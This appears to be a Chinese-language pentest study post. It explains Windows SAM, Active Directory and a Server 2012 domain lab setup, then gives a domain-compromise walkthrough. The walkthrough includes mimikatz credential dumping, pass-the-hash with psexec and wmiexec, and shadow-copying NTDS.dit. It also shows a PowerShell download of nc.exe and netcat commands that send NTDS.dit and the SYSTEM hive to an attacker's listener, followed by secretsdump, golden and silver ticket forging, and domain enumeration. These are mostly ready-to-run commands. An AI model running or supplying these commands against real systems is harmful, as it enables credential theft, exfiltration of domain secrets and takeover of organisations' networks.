


##### SAM
SAM(安全账户管理器)，SAM是用来存储Windows操作系统密码的数据库文件，SAM文件中保存的是明文密码经过一系列算法处理过的Hash值。在用户在本地或远程登陆系统时，会将Hash值与SAM文件中保存的Hash值进行对比。
SAM文件在磁盘中的位置在C:\windows\system32\config\sam SAM文件在Windows系统启动后被系统锁定，无法进行移动和复制

获取Hash方法
在渗透测试中，通常可从Windows系统中的SAM文件和域控的NTDS.dit文件中获得所有用户的hash，通过Mimikatz读取lsass.exe进程能获得已登录用户的NTLM hash

1.使用mimikatz等工具读取lsass.exe进程，获取Hash
```
lsass.exe是一个系统重要进程，用于微软Windows系统的安全机制。它用于本地安全和登陆策略，如果结束该进程，会出现不可知的错误
```
mimikata使用方法（要为system权限才行）
使用命令
这里有mimikate使用
https://klionsec.github.io/2016/07/23/mimikatz-one/
```php
mimikata.exe
privilege::debug
sekurlsa::logonpasswords
```
结果是这样的

2.使用卷影副本将SAM文件导出，配合SYSKEY利用mimikatz等工具获得NTLM Hash（没用到过）
```
Windows系统以自动或手动的方式对文件或磁盘卷宗的当前状态进行备份（或快照）
```
###### 域
其实可以把域和工作组联系起来理解，在工作组上你一切的设置在本机上进行包括各种策略，用户登录也是登录在本机的，密码是放在本机的数据库来验证的。而如果你的计算机加入域的话，各种策略是域控制器统一设定，用户名和密码也是放到域控制器去验证，也就是说你的账号密码可以在同一域的任何一台计算机登录。
作用：网络规模达到一定程度，工作组的管理方式就变得非常麻烦，不再适合，因此有了能在固定范围内实现”中央集权”的管理环境——域。

##### 域控
在域中，包含域的账户，密码，域内计算机构成的数据库，可统一管理域内主机的网络资源的一台计算机，这台计算机被称为域控服务器(Domain Controller | DC)，当电脑联入网络时，域控制器首先要鉴别这台电脑是否是属于这个域的，用户使用的登录账号是否存在、密码是否正确。如果以上信息有一样不正确，那么域控制器就会拒绝这个用户从这台电脑登录。不能登录，用户就不能访问服务器上有权限保护的资源，他只能以对等网用户的方式访问Windows共享出来的资源，这样就在一定程度上保护了网络上的资源。
##### 域树
域树由多个域组成，这些域共享同一表结构和配置，形成一个连续的名字空间。

如图，a.com及其下的子域及其子域的子域所构成的域树。
##### 域林
域林由一个或多个域树组成
如图为三个不同的域，它们组成一个域林。


##### Active Directory(活动目录)
人们经常将数据存储作为目录的代名词。目录包含了有关各种对象 [例如用户、用户组、计算机、域、组织单位（OU）以及安全策略] 的信息。这些信息可以被发布出来，以供用户和管理员的使用。
目录存储在被称为域控制器的服务器上，并且可以被网络应用程序或者服务所访问。一个域可能拥有一台以上的域控制器。每一台域控制器都拥有它所在域的目录的一个可写副本。对目录的任何修改都可以从源域控制器复制到域、域树或者森林中的其它域控制器上。由于目录可以被复制，而且所有的域控制器都拥有目录的一个可写副本，所以用户和管理员便可以在域的任何位置方便地获得所需的目录信息。

存储方式

ntds.dit是AD中的数据库文件，它被保存在域控制器c:\windows\system32\ntds\NTDS.DIT位置。活动目录的数据库文件（ntds.dit）包含有关活动目录域中所有对象的所有信息，其中包含所有域用户和计算机帐户的密码哈希值。该文件在所有域控制器之间自动同步，它只能被域管理员访问和修改。

活动目录(Active Directory)主要提供以下功能：
```
①服务器及客户端计算机管理：管理服务器及客户端计算机账户，所有服务器及客户端计算机加入域管理并实施组策略。
②用户服务：管理用户域账户、用户信息、企业通讯录（与电子邮件系统集成）、用户组管理、用户身份认证、用户授权管理等，按省实施组管理策略。
③资源管理：管理打印机、文件共享服务等网络资源。
④桌面配置：系统管理员可以集中的配置各种桌面配置策略，如：用户使用域中资源权限限制、界面功能的限制、应用程序执行特征限制、网络连接限制、安全配置限制等。
⑤应用系统支撑：支持财务、人事、电子邮件、企业信息门户、办公自动化、补丁管理、防病毒系统等各种应用系统。
```
##### 二、域的特性
域成员计算机在登录的时候可以选择登录到域中或此计算机，登陆到域中的时候，身份验证是采用Kerberos协议在域控制器上进行的，登陆到此计算机则是通过SAM来进行NTLM验证的，如下图：
##### 一次域环境搭建
1）首先指定AD角色服务器的ip地址，以及配置DNS地址（配置为本机IP用来进行域内解析）
域控会将自己扮演的角色注册到DNS服务器内，以便让其他计算机能够通过DNS服务器来找到域控

点击Server2012左下角的“服务器管理器”显示如下界面


点击添加角色和功能，然后点击下一步来到如下界面

点击下一步

服务器选择这里选择默认的，假如你需要针对其它主机安装AD角色，这里可以选择你需要的主机，点击”下一步”
 
这里勾选“Active Directory域服务”，当勾选这个选项时，会弹出如上对话框，点“添加功能”就OK。
这样就正确选择了安装AD角色，点击”下一步”


功能页面不需要做任何选择直接点“下一步”


这里是介绍AD角色的功能及注意事项，点击“下一步”

勾选”如果需要，自动重新启动目标服务器”，然后点击”安装”

勾选”如果需要，自动重新启动目标服务器”，然后点击”安装”

安装成功后我们点击“关闭”，但这还没有完全安装成功

点击服务器右上角的“功能按钮”

点击”部署后配置”，在红框处填入相应的域名

点击“下一步”，红色方框选择域功能级别，绿色方框选择相应的功能，DNS/GC/RODC,黄色方框输入目录服务还原密码
设置目录还原密码。

目录还原模式是一个安全模式，可以开机进入安全模式时修复AD数据库，但是必须使用此密码 

点击“下一步”后配置DNS，由于不需要委派DNS，所以这里不需要设置，直接点击”下一步”

若没有特殊需求默认的就可以，直接点”下一步”

配置日志，数据库，sysvol路径，若没有特殊需求，默认就可以

查看配置信息，若没有任何问题直接点”下一步”

这个页面是检测是否满足条件，满足条件后就可以直接点”安装”

这篇文章有完整加入域的操作
https://www.cnblogs.com/zengjieboke/p/7219605.html
要登录本地计算机用 计算机名/用户名如下

要登录域用  域\域用户名 登录如下

我们来创建域用户


新建的用户我们看看是什么权限


domain users”指的是普通用户，其权限低，一般拥有简单的访问功能。一般而言，这类用户没有安装和卸载软件的权利。
这里有对该用户的设置


我们用新建的用户随机登录一个域电脑


能成功登录但是登录域控服务器却不行

# 简单域渗透
域渗透的思路就是：通过域成员主机，定位出域控制器IP及域管理员账号，利用域成员主机作为跳板，扩大渗透范围，利用域管理员可以登陆域中任何成员主机的特性，定位出域管理员登陆过的主机IP，设法从域成员主机内存中dump出域管理员密码，进而拿下域控制器、渗透整个内网。

首先假设我们已经拿到一台电脑本地登录用户的system权限,并且已经登录，登录后，先看看有没域
```c
ipconfig /all
```


我们上传mimikate,来看看有没域用户登录过.
```c
privilege::debug
sekurlsa::logonpasswords
```
管理员在线或者没有注销。我们可以抓取明文的，但如果没有明文，也可以把hash拿去破解
登录抓取的域用户，然后来收集一手信息
查看域控的主机名
```c
net group "domain controllers" /domain
```


注意通过该指令得到的机器名后面会多一个$符号，如下图：
来ping一手可以看域控对应的ip(与DNS服务器是一样的)
也可以可以通过nslookup

再看看域管理员的用户名
```c
net group "domain admins" /domain
```

最后看看域用户
```c
net user /domain
```
接下来就是找到一台域管理员登录的机器
首先退出域用户，用具有管理的账号密码登录,然后查看那些用户在本机器登录
```c
tasklist  /v 
```
域管理员刚好在本机器登录过，但真实环境不会这么顺利（所以我们只有横向渗透）


### hash传递
在内网渗透中有时候抓不到明文密码，也可以用hash传递注入攻击拿下另一个目标
首先利用mimikate抓取ntlm()


然后利用从而达到执行命令
某些工具的参数需要填写固定格式 ==LM hash:NT hash==，可以将LM hash填0(LM hash可以为任意值)，即00000000000000000000000000000000:NT hash
```c
psexec.exe whoami@192.168.100.138 net user  -hashes 0:B36309FCEAE34C5C6D63D5F0D4A4198A
```
也可以用wmiexec.py，这样可以获得一个交互式shell，比较方便
脚本地址：https://github.com/SecureAuthCorp/impacket
```c
python wmiexec.py whoami@192.168.100.138  -hashes 0000:B36309FCEAE34C5C6D63D5F0D4A4198A
```

psexec的使用

### hash传递原理
了解windwos认证原理
```
1.用户输入username、password、domainname（交互式才需要这个步骤），客户端会计算hash值保存在本地；
2.客户端将username明文发给DC；
3.DC生成一个16Byte的随机数（challenge）发送给客户端；
4.客户端通过运算生成一个响应值response=f(hashes,challenge,other)=>other根据版本变化，例如时间戳来防止回访等；
5.客户端将响应值发送给DC；
6.DC经过同样的运算result = f(hashes,challenge,other)，然后比较result和response，一直就验证通过，不一致则验证不通过；
7.备注：目标不一定是DC，hash对应的账号所登录的（有缓存的）工作站也可以。
```
哪些服务会让Windows带上自身认证信息登录?访问smb共享文件夹等，此时会使用认证信息尝试登录，并且调用lsass内存中的hash缓存尝试登录，此时使用mimikatz等工具修改缓存的hash为获取得到的hash，从而使用修改的hash进行登录，这是哈希传递的原理(smb 直接基于TCP协议或者NetBIOS,TCP使用hash,NetBios基于ticket,Kerberos协议也是通过Hash进行身份验证的，不过Kerberos协议默认使用Client本机的缓存证书与Server进行验证 )
* psexec -k 表示使用kerberos协议，如果不成功可以删除Client机器中的缓存证书即可(klist purge)


获取管理员用户权限的交互式 shell
```c
psexec \\192.168.17.138 -u  user-p password cmd
```
拷贝文件到远程机器并以交互方式运行，运行结束后会删除
```c
psexec \\192.168.17.138 -c C:\Users\test\Desktop\GetHashes.exe
```
可以执行交互式shell了,那么最后就是拿数据了，导出ntds.dit文件了，导出数据又涉及到一些知识了，首先直接导出是不行的，文件在使用中是没法移动的
如果我们能够在AD域控主机上执行“vssadmin”命令，这条命令会生成“C”盘的卷影副本，从卷影副本中，我们可以复制AD域控主机上的“ntds.dit”文件了
```
卷影副本，也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。
```

我检查一下该主机上是否有可用的C盘的卷影拷贝命令如下
```c
vssadmin list shadows
```


看来是没有,那我们就来创建C盘的卷影拷贝
```c
vssadmin create shadow /for=c:
```
这是卷影副本的名字
接下来利用powershell下载个nc到电脑上
```c
powershell (new-object System.Net.WebClient).DownloadFile( 'http://ip:7667/nc/nc.exe','C:\Windows\Temp\3.exe')
```
然后用vps监听
```c
nc -lvvp 9988 > ntds.dit
```
shell中执行其中这个是上文的卷影副本\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit
```c
nc ip:9988 < \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit
```
同时把system文件也下载下来
```c
3.exe -v ip 9988  < \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM
```
导出了ntds.dit，接下来就是查看具体内容了,同样是用的https://github.com/SecureAuthCorp/impacket中的secretsdump.py 这个Python脚本来提取ntds.dit和SYSTEM文件中的域，uid，rid LM和NT哈希值了，命令如下：
命令如下
```c
python secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```


至此，接下来就是清楚自己的痕迹了
### 票据
#### kerberos 协议认证过程
* 第一步：client和认证服务器（AS）通信完成认证过程，如果认证成功AS返回给client一个TGT（用来向TGS获取ticket）；
* 第二步：client和票据生成服务器（TGS）通信验证是否要去访问目标站点的权限，如果有返回一个ticket给client；
* 第三步：client带着这个票据访问待访问站点；

* 举一个简单的例子：你想坐飞机，但是机场告诉你必须有机票（TGT）才可以登机，接着你去购票处（AS）出示身份证（Client name）购买了一张机票（TGT），你拿着机票登机，在检票处（TGS）出示机票，服务人员告诉了你的座位号（Ticket），然后就可以坐到自己的位置上。
### 黄金票据
#### 黄金票据利用原理
黄金票据就是自己生成的TGT,在生成TGT的过程中，user, domain timestamp,还有权限信息都会经过krbtgt(该账号不自动更新)账户hash的加密，所以获取到用户，域，SID,krbtgt的hash值就可以生成黄金票据，生成的票据是是域管账号的，这样就控制了整个域，而且有了金票据，免除了username,password验证，所以就不用担心域管理修改密码

#### 黄金票据利用
我们先导出krbtgt的ntml hash 或者aes256
1.可以通过mimikate导出也可以我们获取到ntds.dit
mimikatz导出命令
> mimikatz   "lsadump::dcsync /domain:test.org /user:krbtgt" > log.txt
2. 然后通过ntml hash生成票据并导入一次性命令
> .\mimikatz “kerberos::golden  /user:whoami  /domain:test.org    /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321  /ptt” exit

3. 分步命令
```
kerberos::purge //删除已经有的缓存
kerberos::gloden /domain:shiyan.com /sid:S-1-5-21-1519369487-284112811-2415659819 /krbtgt:fb147173be1b6a2a8eac268939dd6 /user:Administrator /ticket:test.kribi  //生成票据
kerberos::ptt test.kribi //导入内存
```


可以通过klist查看导入的凭证


尝试是否成功
	

可以通过psexec 获取一个交互式shell


对其中一些命令的解释
```
/domain -----完整的域名，在这个例子中：“test.org”
/ sid ----域的SID
/ user ---伪造的用户名
/ groups（可选）---用户所属的组RID（第一组是主组）。添加用户或计算机帐户RID以接收相同的访问权限。默认组：513,512,520,518,519为默认的管理员组。
/ krbtgt---域KDC服务帐户（KRBTGT）的NTLM密码哈希值。用于加密和签署TGT。
/ ticket（可选） - 提供一个路径和名称，用于保存Golden Ticket文件以便日后使用或使用/ ptt立即将黄金票据插入内存以供使用。
/ ptt - 作为/ ticket的替代品 - 使用它来立即将伪造的票据插入到内存中以供使用。

/ aes256 - AES256密钥(可替换/krbtgt:ntml)
````


###  白银票据
#### 白银票据利用原理

白银票据不与KDC交互，伪造Ticket直接与server进行交互,TGS发送的ticket是通过访问的服务端的用户hash进行加密，所以我们只要知道server用户的hash就可以伪造一个ticket,  这就是白银票据

#### 白银票据利用
服务类型可以从以下内容中来进行选择，因为我们没有TGT去不断申请ticket，所以只能针对某一些服务来进行伪造
```
服务注释    	             服务名
WMI	HOST                     RPCSS
Powershell Remoteing	     HOST、HTTP
WinRM	                     HOST、HTTP
Scheduled Tasks	             HOST
LDAP 、DCSync	              LDAP
Windows File Share (CIFS)	  CIFS
Windows Remote ServerAdministration Tools	RPCSS、LDAP、CIFS

```
需要server的ntml hash


最后利用mimikatz

```

mimikatz "kerberos::golden /domain:lmcx.org /sid:S-1-5-21-398853188-700735657-3655563174 /target:WIN-8S8TI6FIOEB.lmcx.org /service:cifs   /user:administrator  /rc4:af482421dc96e5792fa9324e8cd367d3 /ptt"  exit


```
查看是否成功




### 黄金票据和白银票据的优点

命令中的sid为域ID，即去掉最后一个-及之后的数字的剩余部分；target顾名思义是目标机器名，使用hostname可以查看，再加上域地址；user可以为任意用户，甚至是不存在的用户，因为我们伪造了TGT或者Ticket都是跳过了第一步AS请求，所以哪怕用户不存在票据也是有效的，隐蔽性较高。 


域中用的到的命令
```
net group “domain admins” /domain 获得域管理员列表
net group “enterprise admins” /domain 获得企业管理员列表
net group “domain controllers” /domain 获得域控制器列表
net group “domain computers” /domain 获得所有域成员计算机列表
net user /domain 获得所有域用户列表
net user someuser /domain 获得指定账户someuser的详细信息
net accounts /domain 获得域密码策略设置，密码长短，错误锁定等信息
```
内网无工具扫描一条 cmd 命令解决：
windwos下

for /l %i in (1,1,255) do @ping 192.168.100.%i -w 1 -n 1 | find /i "ttl"

linux 下
for i in \`seq 1 255\`; do ping -c 2 192.168.100."$i"|grep  "64 bytes" ;done 


找主机名

    for /l %i in (1,1,255) do @ping -a 10.0.1.%i -w 1 -n 1 | find /i "Pinging"

